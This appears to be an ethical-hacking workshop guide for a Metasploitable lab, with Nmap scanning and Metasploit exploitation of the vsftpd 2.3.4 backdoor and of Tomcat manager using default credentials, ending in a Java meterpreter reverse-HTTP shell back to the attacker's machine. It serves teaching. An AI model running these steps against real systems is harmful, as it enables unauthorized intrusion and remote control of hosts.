 # Intro to Ethical Hacking Workshop Guide

## Lab 1: Nmap

First, make sure our Metasploitable lab machine is reachable. From Kali Linux:

```
ping <metasploitable_ip>
```

Next, we'll try Nmapping this host. Run the following scan to do a basic port scan of the host.

```
nmap -Pn -sS <metasploitable_ip>
```

We now have a list of ports. Let’s see if we can get a little more information about service versions.

```
nmap -Pn -sS -sV <metasploitable_ip>
```

Now that we have a list of ports, and version, we notice that the FTP service vsftpd is running on port 21. Let’s check if Nmap contains any scripts to scan for vulnerabilities in this service. We’ll list the files in the directory using ls -la /usr/share/nmap/scripts and then pipe the output to “grep” to search for the string ftp, using the following command:

```
ls -la /usr/share/nmap/scripts/ | grep ftp
```

There is a script specifically for this host, called “ftp-vsftpd-backdoor.” We’ll run this script against the vulnerable host to determine if it’s vulnerable. Note that in this scan, we’re only specifying port 21 with the -p21 flag, since this is the only port we care to scan with this script.

```
nmap -Pn -sS -sV -p21 --script ftp-vsftpd-backdoor <metasploitable_ip>
```

Running this nmap command should show that service is indeed vulnerable.

## Lab 2: Intro to Metasploit

Now that we have identified a vulnerability using Nmap, let’s attempt to exploit this vulnerability. We’ll begin by starting the Metasploit Console using the following command:

```
msfconsole
```

Once Metasploit has started, we’ll use the following command to search for a relevant exploit for the vulnerable service.

```
search vsftp
```

After this command is completed, we should see at least one vulnerability pertaining to vsftpd. We’ll use the following command to get a little more information about the vulnerability.

```
info exploit/unix/ftp/vsftpd_234_backdoor
```

Running this command shows that the exploit works against vsftpd 2.3.4. If we revisit the Nmap scan results, we should see that the server is running this version. Therefore, we’ll go ahead and activate this exploit.


```
use exploit/unix/ftp/vsftpd_234_backdoor
```

Now that we have specified which exploit we want to use, we’ll need to set a few options for the exploit to properly work. This can be viewed using the following command:

```
show options
```

Now that we have a list of options, we see that we only need to fill in one variable. This is RHOST, since RPORT is the correct port that vsftpd is running on. We’ll set RHOST to the IP address of the Metasploitable box.

```
set RHOSTS <metasploitable_ip>
```

Finally, running an exploit without a payload is relatively useless. If we begin by typing “set payload” and the tab key a couple of times, Metasploit should autocomplete this field. We see that there is only one option. Let’s go ahead and specify that payload.

```
set payload cmd/unix/interact
```

Everything should now be complete. Let’s type “show options” one more time to verify that there aren’t any additional payload options to specify. There shouldn’t be, so let’s go ahead and run our exploit.


```
run
```

We will see some output, and then should have a blank line. Run the following command in the blank line.

```
id
```

This should return output stating that we have an active session as the root user. Success! We’ve rooted our first box.

## Bonus Lab: More Metasploit


The next lab will be a bit more involved than the previous exercise. We first begin by revisiting our Nmap results from previously. We see that Tomcat manager is running on port 8180. We recall several incidents involving poor authentication with Tomcat manager. We’ll begin by browsing to this port within a web browser.

```
http://<meterpreter_ip>:8180
```

We should see a panel to the left of the screen. This panel should contain a link titled “Tomcat Manager." Click the “Tomcat Manager” link and insert the default username and password when prompted.

* username: tomcat
* password: tomcat

We’re now in the management panel of Tomcat. From here, we can upload any web application that we would like. We could do this manually, but Metasploit should have a module that does this automatically. Start Metasploit if it isn’t currently running.

```
msfconsole
```

Once Metasploit starts, we should search for any exploit related to tomcat.

```
search tomcat
```

After examining the results, “tomcat_mgr_deploy” sounds like it may do what we’re wanting to do. Let’s verify by using the following command:

```
info exploit/multi/http/tomcat_mgr_deploy
```

Go ahead and use this exploit, since we have verified that it will work against our target host.

```
use exploit/multi/http/tomcat_mgr_deploy
```

Now that we’ve activated this exploit, let’s examine the options available

```
show options
```

As before, we’ll set each variable to the required setting, making sure we provide the default username and password.

```
set HttpPassword tomcat
set HttpUsername tomcat
set RHOSTS <metasploitable_ip>
set RPORT 8180
set target 1
```

Now that we need to select a payload for the exploit. Hitting tab a few times reveals java/meterpreter/reverse_tcp. Since we prefer using meterpreter when possible, we’ll select this option.

```
set payload java/meterpreter/reverse_http
```

Once again, “show options” to show payload options.

```
show options
```

We’ll set the payload option to our local IP address.

```
set LHOST <kali_ip>
```

And then run the exploit.

```
run
```

Let’s examine the current UID with the following command.

```
getuid
```

We should see that our payload is running as the tomcat user. The next steps would be to find a way to elevate these permissions to root.